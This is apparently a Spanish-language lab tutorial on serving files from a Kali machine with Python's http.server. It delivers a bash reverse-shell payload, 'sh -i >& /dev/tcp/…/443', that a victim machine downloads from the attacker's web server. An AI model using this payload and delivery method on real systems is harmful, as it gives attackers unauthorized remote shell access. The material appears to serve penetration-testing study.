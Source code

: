 # Cómo Compartir Archivos con Servidor Http Con Python + Reverse Shell

- Creamos un Payload basico con el editor nano:
    
    ```bash
    nano payload.sh
    ```
    

![image.png](image%204.png)

- Escribimos el siguiente código que lo que hace básicamente de envió de una Reverse Shell. Guardamos y salimos de nano.
La IP pertenece a la maquina atacante.
    
    ```bash
    #!/bin/bash
    
    sh -i >& /dev/tcp/10.0.3.4/443 0>&1
    ```
    

![image.png](image%205.png)

- Vamos a crear un servidor web con Python.

```bash
python3 -m http.server 80

```

**python3**: **Llama a la versión 3 de Python**.

**-m http.server**: **Invoca el módulo http.server de Python**, que incluye las funcionalidades necesarias para crear un servidor HTTP básico.

**80**: Especifica que el servidor **usará el puerto 80**, el puerto predeterminado para el protocolo HTTP.

![image.png](image%206.png)

- Esto lo que hace es levantar un servidor web en el puerto 80 dentro del actual directorio dentro de la maquina kali.
- Si vamos a la maquina victima y ponemos la IP de la maquina Kali en el navegador accederíamos al directorio donde he creado el servidor web. De tal forma que si le doy un clip al archivo payload.sh lo descargaría.

![image.png](faad3445-f7c7-44b5-a98e-4a045fc997ea.png)